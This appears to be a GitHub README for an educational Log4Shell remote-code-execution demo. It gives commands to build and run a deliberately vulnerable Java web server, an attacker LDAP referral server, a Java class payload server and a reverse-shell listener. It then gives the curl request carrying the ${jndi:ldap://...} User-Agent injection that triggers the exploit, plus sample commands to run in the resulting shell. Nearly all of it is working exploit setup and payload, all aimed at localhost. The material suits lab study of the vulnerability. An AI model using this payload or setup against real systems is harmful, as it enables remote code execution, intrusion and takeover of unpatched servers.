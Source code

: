 # log4Shell
log4Shell vulnerability RCE sample via reverse shell

**NOTE**

This repo is only for educational purposes only

---


## Run victim web server (app)
```
gradlew build
java -Dcom.sun.jndi.ldap.object.trustURLCodebase=true -jar build\libs\app-1.0.0.jar
```

## Run attacker malicious ldap server (ldap)
```
gradlew build
java -jar build\libs\ldap-1.0.0.jar http://localhost:8081/#Payload 389
```

## Run attacker java class payload server (payload)
```
gradlew build
java -jar build\libs\payload-1.0.0.jar
```

## Run attacker reverse shell server (rce)
```
gradlew build
java -jar build\libs\rce-1.0.0.jar

```

## Executing the attack
```
curl http://localhost:8080/ -H 'User-Agent:${jndi:ldap://localhost/a}'
```

## Sample command in reverse shell
```
cmd /C whoami
notepad
```




### More info
https://www.lunasec.io/docs/blog/log4j-zero-day/
https://github.com/mbechler/marshalsec/blob/master/src/main/java/marshalsec/jndi/LDAPRefServer.java

